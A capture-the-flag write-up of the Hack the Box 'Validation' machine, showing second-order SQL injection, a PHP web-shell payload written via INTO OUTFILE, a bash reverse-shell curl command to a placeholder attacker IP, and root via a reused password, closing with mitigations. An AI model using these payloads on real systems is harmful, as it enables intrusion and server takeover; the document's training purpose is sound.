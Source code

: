 ```yaml
--- 
title: "Hack the Box (HTB) - Validation"
description: "Exploiting Second-Order SQL Injection"
date: 2024-07-13 12:00:00 -100
image: /assets/images/HTB - Validation Pics/Validation_Thumbnail.png
categories: [CTF]
tags: [sql injection, privilege escalation, password reuse, docker, web application]    # TAG names should always be lowercase
---
```


## Enumeration

We'll start with an [autorecon](https://github.com/Tib3rius/AutoRecon) scan against our target machine

```bash
sudo autorecon <ip>
```

Looking at the results, we see the following ports open

- 22 (SSH)
- 80 (HTTP)
- 4566 (HTTP)
- 8080 (HTTP)
- Various filtered ports

![Nmap Scan](/assets/images/HTB%20-%20Validation%20Pics/Nmap%20scan_validated.png)

We'll start with the low hanging fruit of this scan and check out the apache web server hosted on port 80. It appears to be a docker container as SSH identifies as `Ubuntu` and the web server identified as `Debian`

![Web page](/assets/images/HTB%20-%20Validation%20Pics/Web%20page.png)

Let's type in our user and check the request in burp

![Burp](/assets/images/HTB%20-%20Validation%20Pics/inital_burp.png)

let's toss this over to repeater with `CTRL + R` and examine the request & responses

The first thing we notice is the static `cookie` that we get when sending the request

The length of the cookie is 32 characters and is a `MD5` of our username. MD5 is obviously deprecated and would be a finding on a real vulnerability assessment but for our purposes in this CTF we will move forward

Let's try a simple SQL injection on the country parameter since we couldn't manually edit that in the GUI

```bash
username=Jigsaw64&country=Anguilla' 
```

Copying the cookie and editing it into our cookie user field We see the following error:

 `Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in
/var/www/html/account.php:33 Stack trace: #0 {main} thrown in /var/www/html/account.php
on line 33`

![Fatal error](/assets/images/HTB%20-%20Validation%20Pics/Fatal%20error.png)

Our single quote `'` seems to have broken the SQL query and gave us an error.

Let's try commenting out the rest of the statement with `-- -`

The error went away once we commented out the rest of the query. This confirms that we have SQLi

Let's enumerate the number of columns by adding a simple union select statement

```SQL
username=Jigsaw94&country=Brazil' union select  1-- -
```

![No SQL error](/assets/images/HTB%20-%20Validation%20Pics/No%20SQL%20error.png)

No error, which confirms that we only have on column

With this we can now use the union select to insert a php shell 

```PHP / SQL
Brazil' UNION SELECT '<?php system($_REQUEST["cmd"]); ?>' INTO OUTFILE '/var/www/html/pwned.php'-- -
```

- `system()` PHP function used to execute shell commands
- `$_REQUEST["cmd"]` PHP superglobal variable that grabs the value of cmd parameter from the HTTP request
- `INTO OUTFILE` writes the query to a file
- `-- -` comment out the remaining SQL

Our SQL statement will take the value of our HTTP request and write it to `pwned.php`

After submitting the payload, we will need to visit `/account.php`. Our payload won't trigger until we load that, which makes this a [Second-Order SQL Injection](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)

![Pwned PHP Uploaded](/assets/images/HTB%20-%20Validation%20Pics/Pwned%20php.png)

We see another error but this is due to the fact that our query did not return any columns or rows. We should be able to navigate to `pwned.php` and verify that our injection worked

![CMD1](/assets/images/HTB%20-%20Validation%20Pics/CMD1.png)

It looks like it works. The error is only due to the fact that we did not supply a command

![CMD2](/assets/images/HTB%20-%20Validation%20Pics/CMD2.png)

With this confirmation of RCE. Let's curl a shell request. We'll set up our `nc` listener and enter the following curl command

```bash
curl -X POST http://10.10.11.116/pwned.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/<YOURIP>/PORT 0>&1"'
```

![Shell Obtained](/assets/images/HTB%20-%20Validation%20Pics/Shell%20Obtained.png)

We have our shell. Since python is not installed on t his container I am going to use the following to upgrade to a pty

```bash
script -q /dev/null
```

![Upgraded shell](/assets/images/HTB%20-%20Validation%20Pics/Upgraded%20shell.png)

We immediately notice a `config.php` file. This is gold, let's take a look

![Config.php](/assets/images/HTB%20-%20Validation%20Pics/password.png)

We see a password `uhc-9qual-global-pw` here, let's try switching to root with this

![Root](/assets/images/HTB%20-%20Validation%20Pics/Root.png)

GG, we've obtained root on this box

## Summary

1. Initial enumerating discoverd Web server
2. Utilized second-order SQLi to get RCE
3. Connected back to our attacker machine via RCE
4. Found & exploited the gRPC service via SQLi
5. Discoverd config.php file with credentials
6. Used credentails from config.php to root machine

## Vulnerabilities & Mitigation Summary

| Vulnerability     | Mitigation            |
|-------------------|-----------------------|
| Static Cookies Assigned by Username  | Use secure, ephemeral, randomly generated session identifiers |
| Use of Deprecated Hash (MD5) | Use a stronger hash function like SHA-256 or bcrypt|
| SQL Injection     | Validate and sanitize user input. Use prepared statements|
| Password Reuse | Don't reuse passwords!

### Remediation References

- [OWASP Secure Cookie Practices](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#secure-cookies)
- [Second-Order SQL Injection](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)
